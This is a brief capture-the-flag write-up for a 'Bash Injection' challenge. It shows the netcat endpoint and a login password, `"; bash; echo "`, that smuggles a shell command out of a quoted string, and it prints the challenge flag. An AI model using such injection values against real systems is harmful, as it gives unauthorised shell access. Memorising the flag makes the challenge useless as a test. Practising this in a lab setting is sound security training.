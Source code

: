 # Bash Injection [50 pts]

**Category:** Miscellaneous

**Solves:** 54

## Description
> Did you manage to log in?
>
>  `nc challs1.nusgreyhats.org 5401`

**Hint**
* \-

## Solution

TODO

> username: `""`
> 
> password: `"; bash; echo "`
> 
### Flag
`greyhats{86sh_1n73ct10n_y6333}`
